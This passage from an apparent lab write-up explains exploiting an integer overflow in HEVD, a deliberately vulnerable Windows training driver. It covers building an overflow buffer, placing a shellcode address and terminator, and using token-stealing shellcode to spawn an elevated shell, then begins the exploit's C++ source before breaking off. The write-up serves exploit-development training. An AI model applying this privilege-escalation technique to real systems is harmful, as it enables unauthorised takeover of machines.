 ```c++
    if(deviceCom){
        std::cout << "[+] Successfully send buffer payload to the driver\n";
    }
    return 0;
}

```

We can now get a crash on our breakpoint set at the `HEVD!TriggerIntegerOverflow+0xa9` function

### Exploitation of the vulnerability

We can start by  creating our user mode buffer, this can be done by setting aside 2096 bites, these bites will be the input buffer filler, that lead up to the EIP register. 

`BYTE userBuffer[0x830] = { 0 }; // should be 0x830 - 2096`

After creating this buffer we can then use the memset  function to move A’s  into the user mode buffer. This user mode buffer will be used to send to the device driver.

Then we can take this user-mode buffer, and add our shellcode address next to it. The shellcode address takes up another four 4 bytes,  and then add remaining 4 byte, which are going to be the Terminator string.

`memcpy(userBuffer + 0x828, &shellcode_address, 0x4);`

Now you can create a byte array for the Terminator string, and then allocated with the user mode buffer. 

```
BYTE terminator[] = "\xb0\xb0\xd0\xba";
memcpy(userBuffer + 0x82c, &terminator, 0x4);
```
After all of this has been finalized, you can then use the DeviceIoControl  function to send the user buffer,  the address 0xfffffff,  and an empty size return.

If all this is successful, and all of your memory allocations have been properly set up. The token stealing shellcode payload will Traverse the EPROCESS  data structure within system applications that are running, and steal their access token, and then you can spawn a new command prompt with elevated permissions.  You can use the createprocess  function to spawn a new command prompt, or you can just use the system function to spawn a new CMD shell.

After putting this all together, here is the final exploit's source code.

```c++
#include <windows.h>
#include <iostream>
#include <string>

#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL 0x222027

int main(){
    std::cout << "[+] HEVD - Integer overflow Windows 7 x86 exploit POC\n\n";
    HANDLE hDevice = CreateFileA(DEVICE_NAME,
                                 GENERIC_READ | GENERIC_WRITE,
                                 FILE_SHARE_READ | FILE_SHARE_WRITE,
                                 NULL,
                                 OPEN_EXISTING,
                                 FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
                                 NULL);

    if (hDevice == INVALID_HANDLE_VALUE){
        std::cout << "[!] Failed to establish a device handler" << GetLastError() << std::endl;
    } else {
        std::cout << "[+] Established a handle to the device - " << DEVICE_NAME << std::endl;
    }

```